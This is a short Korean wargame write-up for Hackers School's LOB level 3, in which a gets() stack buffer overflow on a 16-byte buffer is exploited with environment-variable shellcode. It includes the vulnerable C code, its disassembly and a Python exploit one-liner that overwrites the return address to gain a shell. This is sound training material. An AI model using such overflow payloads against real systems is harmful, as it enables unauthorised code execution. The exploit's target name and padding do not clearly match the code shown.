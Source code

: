 ```yaml
---
date: '2022-10-13'
before : '2022-10-12'
after : '2022-10-14'
title: 'FTZ LOB LEVEL 3'
categories: ['C-SEC', 'KOR','PWN']
summary: ''
thumbnail: './C_Sec.jpg'
---
```


### 0. 들어가기 전에


이번 문제도 굉장히 쉽다. 그냥 똑같다고 보면 될 것 같다. FTZ 복습 개념인건가...?


### 1. Level 3 : Cobolt -> Goblin


코드가 매우 짧다. 
```
int main()
{
    char buffer[16];
    gets(buffer);
    printf("%s\n", buffer);
}
```
어셈블리도 마찬가지로 딱히 특이점은 없다.
```
0x80483f8 <main>:       push   %ebp
0x80483f9 <main+1>:     mov    %ebp,%esp
0x80483fb <main+3>:     sub    %esp,16
0x80483fe <main+6>:     lea    %eax,[%ebp-16]
0x8048401 <main+9>:     push   %eax
0x8048402 <main+10>:    call   0x804830c <gets>
0x8048407 <main+15>:    add    %esp,4
0x804840a <main+18>:    lea    %eax,[%ebp-16]
0x804840d <main+21>:    push   %eax
0x804840e <main+22>:    push   0x8048470
0x8048413 <main+27>:    call   0x804833c <printf>
0x8048418 <main+32>:    add    %esp,8
0x804841b <main+35>:    leave
0x804841c <main+36>:    ret
0x804841d <main+37>:    nop
0x804841e <main+38>:    nop
0x804841f <main+39>:    nop
```

평소 하던것처럼 쉽게쉽게 EGG 등록하고 주소를 확인한 후 쉘코드를 짜자.


아, gets()함수이니 ("변수"; cat) | ./goblin 형식으로 쓰는것도 잊지 말자.

```
0xbffffeca
```

익스플로잇 :
```
(python -c 'print "A"*40+"\xca\xfe\xff\xbf"'; cat) | ./attackme
```
hackers proof

---
## Source

- 해커스쿨 FTZ
- Me!

